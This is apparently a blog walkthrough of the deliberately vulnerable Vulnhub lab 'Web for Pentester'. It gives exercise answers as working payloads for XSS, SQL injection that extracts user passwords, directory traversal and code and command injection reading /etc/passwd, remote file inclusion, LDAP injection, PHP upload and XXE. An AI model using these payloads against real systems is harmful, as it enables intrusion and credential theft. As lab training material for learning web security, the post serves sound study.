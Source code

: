 ```yaml
---
layout: post
title: "Vulnhub: Web for P3ntester"
categories: vulnhub
author: "dib"
permalink: /vulnhub/web-for-pentester/
tags: vulnhub
---
```


> "IoT without security = Internet of Threats" -- Stéphane Nappo

![][1]
![][2]

We're gonna practice one of the oldies but goodie VMs on Vulnhub, it's P3ntester Lab: Web for P3ntesters. To download this VM, click [here](https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/). First of all we will do the XSS exercises.

### 0x00 Get IP address

![][3]

<details>
  <summary>
    get VM IP address
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> sudo ifconfig
[sudo] password for imd: 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.222.129  netmask 255.255.255.0  broadcast 192.168.222.255
        inet6 fe80::20c:29ff:fe30:674e  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:30:67:4e  txqueuelen 1000  (Ethernet)
        RX packets 3055  bytes 794511 (775.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 984  bytes 103982 (101.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 22  bytes 1052 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 22  bytes 1052 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1	00:50:56:c0:00:08	VMware, Inc.
192.168.222.2	00:50:56:e7:41:94	VMware, Inc.
192.168.222.128	00:0c:29:ee:a3:2a	VMware, Inc.
192.168.222.254	00:50:56:ea:ab:d2	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.124 seconds (120.53 hosts/sec). 4 responded

</pre>
</details>

Just type "ifconfig" on the machine to get its IP. or you can scan it on your machine. Victim's target IP is 192.168.222.128.

### 0x01 XSS

<details>
  <summary> XSS exercises answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
<script>alert('vulnerable')</script>
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
<Script>alert('vulnerable')</Script>
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
<scr<script>ipt>alert('vulnerable')</scr</script>ipt>
<svg/onload=alert('vulnerable');
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
<img src="null" onerror='alert("vulnerable")'/>
{% endhighlight %}

<b>Exercise 5</b>

convert ascii to dec

https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html

`<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 118, 117, 108, 110, 101, 114, 97, 98, 108, 101, 34, 41))</script>`

<b>Exercise 6</b>
{% highlight html %}
";alert('vulnerable');"
{% endhighlight %}

<b>Exercise 7</b>
{% highlight html %}
';alert('vulnerable');'
{% endhighlight %}

<b>Exercise 8</b>
{% highlight html %}/">
<script>alert('vulnerable')</script>
{% endhighlight %}

<b>Exercise 9</b>

do it preferably on internet explorer browser which is known as vulnerable on DOM based xss attack

{% highlight html %}
#hacker<script>alert('vulnerable')</script>
{% endhighlight %}

</pre>
</details>

### 0x02 SQLi

<details>
  <summary> SQLi exercises answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
' or 1=1-- -
' or 1=1 union all select 1,2,3,4,table_name from information_schema.tables-- -
' or 1=1 union all select 1,2,3,4,column_name from information_schema.columns-- -
{% endhighlight %}

<b>Exercise 2</b>

https://www.eso.org/~ndelmott/url_encode.html

"%09" = tab

{% highlight html %}
'%09or%091=1--%09-
'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
or 1=1
sqlmap -u &quot;http://pentesterlab/sqli/example4.php?id=2&quot; --dbs
{% endhighlight %}

<b>Exercise 5</b>
{% highlight html %}2 or 1=1-- -{% endhighlight %}

<b>Exercise 6</b>
{% highlight html %}2 or 1=1-- -{% endhighlight %}

<b>Exercise 7</b>
{% highlight html %}%0a or 1=1{% endhighlight %}

<b>Exercise 8</b>

"%23" is hash (#) encoded

{% highlight html %}
ORDER BY ``%23 or order = name`,` name`
`%23 or order = name
{% endhighlight %}

<b>Exercise 9</b>
{% highlight html %}IF (1, name, age){% endhighlight %}

</pre>
</details>

### 0x03 Directory Traversal

<details>
  <summary>directory traversal answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}file=../../../../etc/passwd{% endhighlight %}

<b>Exercise 2</b>>

{% highlight html %}file=/var/www/files/../../../../etc/passwd{% endhighlight %}

<b>Exercise 3</b>>

{% highlight html %}file=../../../../etc/passwd%00
file=../../../../etc/passwd%2500{% endhighlight %}

</pre>
</details>

### 0x04 File Path

<details>
  <summary>file path answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
page=../../../../etc/passwd
page=http://192.168.222.129/phpinfo.txt
page=http://spenneberg.org/phpinfo.txt
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
page=http://www.spenneberg.org/phpinfo.txt%00
{% endhighlight %}

</pre>
</details>

### 0x05 Code Injection

<details>
  <summary>code injection answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
decoded url to ascii:
hacker ".system ('hostname'); #
{% highlight html %}
name=hacker".system('whoami')%3B%23
name=hacker%22.system(%27hostname%27)%3B%23
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
order=id)%3B}system('cat /etc/passwd')%3B%23
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
pattern=/[0-9]/e&new=system('cat /etc/passwd')&base=1
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
name=hacker'.system('cat /etc/passwd')%3B%23
name=hacker'.system('cat /etc/passwd').'
{% endhighlight %}

</pre>
</details>

### 0x06 Command Injection

<details>
  <summary>command injection answers</summary>

<pre>
&nbsp;  
<b>Exercise 1</b>
{% highlight html %}
ip=127.0.0.1;id
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
ip=127.0.0.1%0Aid
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
GET /commandexec/example3.php?ip=127.0.0.1|cat+/etc/passwd HTTP/1.0
{% endhighlight %}

</pre>
</details>

### 0x07 LDAP Attacks

<details>
  <summary>LDAP attacks answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
just remove '?username=hacker&password=hacker'
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
name=hacker)(cn=*))%00&password=test
{% endhighlight %}

</pre>
</details>

### 0x08 File Upload

<details>
  <summary>file upload answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
echo "<?php phpinfo(); ?>" > phpinfo.php
/upload/images/phpinfo.php
{% endhighlight %}


<b>Exercise 2</b>
{% highlight html %}
echo "<?php phpinfo(); ?>" > phpinfo.php.text
/upload/images/phpinfo.php.test
{% endhighlight %}

</pre>
</details>

### 0x09 XML Attacks

<details>
  <summary>xml attack answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
xml=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file%3A%2f%2f%2fetc%2fpasswd">]><test>%26xxe%3B<%2ftest>
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
name=' or 1=1]%00
{% endhighlight %}

</pre>
</details>


[1]: https://i.imgur.com/3xNv7Vl.png
[2]: https://i.imgur.com/L7aKp5g.png
[3]: https://i.imgur.com/WcRI3QW.png